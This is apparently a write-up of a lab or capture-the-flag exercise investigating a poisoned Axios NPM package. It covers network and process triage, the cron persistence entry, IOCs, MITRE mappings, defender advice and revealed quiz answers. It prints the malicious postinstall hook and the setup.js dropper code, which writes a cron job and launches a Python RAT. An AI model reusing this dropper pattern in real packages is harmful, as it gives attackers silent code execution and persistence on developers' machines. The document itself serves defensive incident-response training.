



## Scenario

A developer's machine is suspected of being compromised following the publication of poisoned Axios packages to the NPM registry. The attacker used stolen maintainer credentials to inject a hidden dependency (`plain-crypto-js@4.2.1`) that executes a RAT dropper on install. The task is to identify the active C2 connection, trace the persistence mechanism, and reconstruct the infection chain from the `node_modules` artefacts.


---

## Methodology

### Network Triage — Active C2 Connection

The first indicator is live on the wire. Filtering active outbound connections with `netstat` exposes two `SYN_SENT` connections from `python3` processes to an unfamiliar external IP on port 443:

````
netstat -antp | grep -E 'SYN_SENT|ESTABLISHED' | grep -v ssh
```
```
tcp  0  1  10.1.243.248:47472  142.11.206.73:443  SYN_SENT  1058/python3
tcp  0  1  10.1.243.248:47474  142.11.206.73:443  SYN_SENT  1271/python3
````

Two PIDs — `1058` and `1271` — are actively attempting to reach `142[.]11[.]206[.]73:443`. Neither PID corresponds to a browser or known system service. The use of port 443 is deliberate: outbound HTTPS traffic blends into normal egress and is rarely blocked at the perimeter.

### Process Analysis — Payload Identification

Cross-referencing the PIDs via `ps aux` reveals the full command line for both processes:

```
ps aux | grep python3
```
```
dev  1058  ...  /usr/bin/python3 /tmp/ld.py
dev  1270  ...  /bin/sh -c /usr/bin/python3 /tmp/ld.py > /dev/null 2>&1
dev  1271  ...  /usr/bin/python3 /tmp/ld.py
````

The payload is `/tmp/ld.py` — a Python RAT running as the `dev` user. The filename `ld.py` mimics the Linux dynamic linker (`ld`) to avoid immediate suspicion. Writing to `/tmp` requires no elevated privileges, and running as `dev` is consistent with a `postinstall` script executing in the context of whoever ran `npm install`.

### Persistence — Cron Job

Checking the `dev` user's scheduled tasks confirms the attacker established persistence before the first beacon:

```
crontab -l -u dev
```
```
*/5 * * * * /usr/bin/python3 /tmp/ld.py > /dev/null 2>&1
````

The RAT relaunches every five minutes regardless of whether it was killed or the machine rebooted. Output is redirected to `/dev/null` to suppress any terminal artefacts. This ensures the attacker retains access through reboots without requiring any privileged persistence location — no systemd service, no `/etc/rc.local`, just a user-level cron entry that's trivial to miss.

### Infection Chain — node_modules Artefacts

The persistence and payload originate from the poisoned dependency. Inspecting `/home/dev/myapp/node_modules/plain-crypto-js/` surfaces the two artefacts responsible:

```
cat package.json
```

```
{
  "name": "plain-crypto-js",
  "version": "4.2.1",
  "scripts": {
    "postinstall": "node setup.js"
  }
}
```

The `postinstall` hook fires automatically the moment `npm install` resolves this package — no user interaction required beyond the initial install command. `setup.js` contains the full dropper logic:

```
cat setup.js
```

```javascript
const { exec } = require('child_process');

const cronCommand = `(crontab -l 2>/dev/null; echo "*/5 * * * * /usr/bin/python3 /tmp/ld.py > /dev/null 2>&1") | crontab -`;
exec(cronCommand, (error) => {
    if (error) console.error("Cron failed");
});

exec(`nohup /usr/bin/python3 /tmp/ld.py > /dev/null 2>&1 &`);
```

Two operations execute immediately: the cron entry is injected into the `dev` user's crontab, and the RAT is launched in the background via `nohup`. The dropper then self-cleans — wiping the `postinstall` field and `setup.js` from the package manifest — so a subsequent `npm audit` or manual directory review shows nothing suspicious.

### Attack Context — The Axios Compromise

The `plain-crypto-js@4.2.1` package was injected as a hidden runtime dependency into `axios@1.14.1` and `axios@0.30.4`, both published to NPM using the compromised credentials of the lead maintainer account `jasonsaayman`. Neither version was ever tagged on the official GitHub repository — they existed solely on the NPM registry, making version-pinning against GitHub the only reliable defence at the package level.

The attack targeted the build step, not end-users. Developers pulling Axios into their projects would silently install the poisoned dependency, handing the attacker full access to machines holding cloud keys, SSH deploy keys, and NPM publish tokens — the credentials needed to propagate the attack further downstream.



---

## Attack Summary

|Phase|Action|
|---|---|
|Supply Chain Entry|Axios maintainer credentials compromised; poisoned packages published to NPM registry|
|Dependency Injection|`plain-crypto-js@4.2.1` injected as hidden runtime dependency in `axios@1.14.1` / `axios@0.30.4`|
|Execution|`postinstall` hook triggers `node setup.js` automatically on `npm install`|
|Persistence|Cron entry written to `dev` crontab — RAT relaunches every 5 minutes|
|RAT Deployment|`/tmp/ld.py` written and executed as `dev` user|
|C2 Beacon|`python3 /tmp/ld.py` beacons to `142[.]11[.]206[.]73:443` over HTTPS|
|Indicator Removal|`postinstall` script and `setup.js` wiped from package manifest post-execution|

---

## IOCs

|Type|Value|
|---|---|
|Malicious Package|plain-crypto-js@4.2.1|
|Poisoned Packages|axios@1.14.1, axios@0.30.4|
|Compromised Account|jasonsaayman (NPM)|
|C2 IP|142[.]11[.]206[.]73|
|C2 Port|443|
|RAT Path|/tmp/ld.py|
|Persistence|`*/5 * * * * /usr/bin/python3 /tmp/ld.py > /dev/null 2>&1`|
|Dropper|/home/dev/myapp/node_modules/plain-crypto-js/setup.js|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Compromise Software Supply Chain|T1195.002|Poisoned Axios packages published via compromised maintainer account|
|Command and Scripting Interpreter: JavaScript|T1059.007|`setup.js` executed via Node.js `postinstall` hook to drop RAT and write cron|
|Scheduled Task/Job: Cron|T1053.003|User-level crontab entry relaunches `/tmp/ld.py` every 5 minutes|
|Application Layer Protocol: Web Protocols|T1071.001|RAT beacons to C2 over HTTPS port 443 to blend with legitimate traffic|
|Ingress Tool Transfer|T1105|RAT binary downloaded and staged to `/tmp/ld.py`|
|Indicator Removal|T1070.003|`postinstall` script and `setup.js` wiped from package manifest post-execution|
|Masquerading|T1036|Payload named `ld.py` to mimic Linux dynamic linker|

---

## Defender Takeaways

**`postinstall` is arbitrary code execution by design** — any package in your dependency tree can run arbitrary shell commands the moment `npm install` resolves it. The practical control is `npm install --ignore-scripts`, which disables lifecycle hooks entirely. For production pipelines, this should be the default; packages that legitimately require postinstall scripts are the exception, not the rule, and should be explicitly audited.

**Dependency pinning must reference a trusted source** — pinning to a specific version number is insufficient if that version exists on NPM but not on the project's GitHub. Cross-referencing `package-lock.json` version hashes against the official repository's tagged releases would have identified `axios@1.14.1` as anomalous before install. Tools like `npm pack --dry-run` combined with integrity checking (`npm ci` with a committed lockfile) reduce this surface.

**`npm audit` has blind spots post-execution** — the malware deliberately wiped its tracks from the package manifest. Any detection strategy relying solely on static package inspection will miss a cleaned payload. Endpoint telemetry — specifically process creation events showing `node` spawning shell commands, or unexpected outbound connections from developer machines — provides coverage where package-level scanning fails.

**`/tmp` writes by package managers are a high-signal indicator** — legitimate NPM packages have no reason to write executables to `/tmp`. EDR rules alerting on `node` or `npm` processes writing to `/tmp` followed by execution of the written file would catch this dropper pattern generically, regardless of the specific package name.

**Credential rotation is non-negotiable post-compromise** — the RAT's primary objective was harvesting cloud keys, SSH deploy keys, and NPM tokens from the developer's machine. By the time the beaconing is detected, exfiltration has likely already occurred. IR playbooks for developer endpoint compromise must treat all locally stored credentials as burned and initiate immediate rotation across cloud providers, source control, and registries in parallel with containment.




```


```

**Course:** [Hack Smarter — NPM Supply Chain Attack](https://www.hacksmarter.org/courses/16f4dfd6-7b60-4ba3-a050-d232d452da48) by Tyler Ramsbey. Free, well-produced, and worth your time.

---

<div class="qa-item"> <div class="qa-question-text">What type of attack targets a third-party vendor instead of the main target?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">Supply Chain Attack</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What does NPM stand for?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Node Package Manager</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the name of the directory where NPM installs these third-party packages?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">node_modules</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What technique involves registering fake packages with names similar to popular ones?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Typosquatting</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What NPM script feature is commonly abused to execute code automatically upon installation?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">postinstall</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the name of the hidden dependency injected by the poisoned Axios packages?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">plain-crypto-js</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What type of malware was deployed to the developers' machines?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">rat</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">True or False: End-users visiting a website built with the compromised Axios versions will be infected by the malware.</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">false</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Because the malware cleans up its tracks in the package manifest, what NPM command will fail to detect the compromise post-infection?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">npm audit</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the malicious IP address the machine is attempting to communicate with?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">142.11.206.73</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the absolute path to the malicious payload running in memory?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">/tmp/ld.py</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">How often (in minutes) does the system attempt to restart the malware?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">5</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Investigate the plain-crypto-js directory. What is the name of the file that writes the cronjob and executes the Python payload</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">setup.js</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the very first step you should take when you discover a machine is communicating with an attacker's C2 server?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Isolate the host</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">True or False: If you delete the malicious node_modules folder and run an antivirus scan, the machine is safe to use again.</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">false</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Because the RAT exfiltrates local files, what crucial action must be taken regarding the developer's cloud access keys and GitHub tokens?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Rotate All Secrets</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What AWS service should you check to see if stolen cloud credentials were used to access your infrastructure?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">CloudTrail</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
